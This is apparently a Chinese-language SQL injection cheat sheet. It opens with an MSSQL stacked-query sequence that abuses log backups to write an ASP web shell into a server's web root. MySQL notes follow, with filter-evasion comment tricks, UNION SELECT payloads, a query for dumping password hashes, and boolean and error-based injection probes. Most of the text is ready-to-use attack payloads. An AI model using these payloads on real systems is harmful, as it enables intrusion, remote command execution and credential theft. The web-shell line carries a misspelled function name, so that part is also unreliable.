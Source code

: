   **1）找到web目录后，可以写入一句话木马**
```sql
;alter database ssdown5 set RECOVERY FULL
;create table test(str image)--
;backup log ssdown5 to disk='c:\test' with init--
;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
;backup log ssdown5 to disk='c:\inetpub\wwwroot\x.asp'-- 
;alter database ssdown5 set RECOVERY simple
```




# MySql数据库注入
## MySql数据库
### （1）mysql数据库介绍
* linux上的免费数据库，一般搭配php使用一般会有两种集成框架：
```
lamp （linux+apache+mysql+php）
lnmp （linux+ngix+mysql+php）
```
### （2）mysql相关函数
* `system_user() `   系统用户名
* `current_user`    当前用户名
* `database()`    数据库名
* `version()`     mysql数据库版本
* `load_file() `    读取本地文件函数
* `@@datadir`   读取数据库路径
* `@@basedir`    mysql安装路径
* `@@version_compile_os`    操作系统
### （3）mysql注释
* 注释符：`#、--、/**/`
* 内联注释：`/*！union*/和/*!50001union*/`
* 用`+、%0a/%0D/和/*ADJFKLASDF--234U23SJFD AND 1=1*/`代替空格
* 用`%`或者`/**/、%00、%01`分割sql语句


## mysql数据库注入挖掘
### （1）查看版本
* 显示出mysql的版本
  `id=-1 union select 1,version(),2,3,4 `
* 查看当前用户
  `id=-1 union select 1,user(),2,3,4`
  *低于 5.0 版本的 mysql 中没有 information_schema 这个库，无法得到数据库信息*
* 查看当前用户密码
  `select user,authentication_string from mysql.user where user='useranem'`
### （2）判断是否有注入
* `id =1 order by 4` 不断从1，2，3，4，5.....直到页面报错 ，得到表的列数
* `id=-1 union select 1,2,3,4.......n`   通过-报错，显示出那一列时字符列
### （3）判断是否有bool注入
* 注入语句：`1' and 1=1 #` （显示正确）
* 注入语句：`1' and 1=2 #` （显示错误，或者显示网站错误页面）
### （4）判断是否有显错注入
* 注入‘或/时，网页会出现错误（sql语句出现干扰），使用`/    -0      ’     ')   '"    '%23    '--  `等等测试
* 显错注入使用的函数：
```
floor(),  extractvalue(),  updatexml(),  geometrycollection(),  multipoint(),  polygon(),  multipolygon(),  linestring(),  multilinestring(),  exp()
```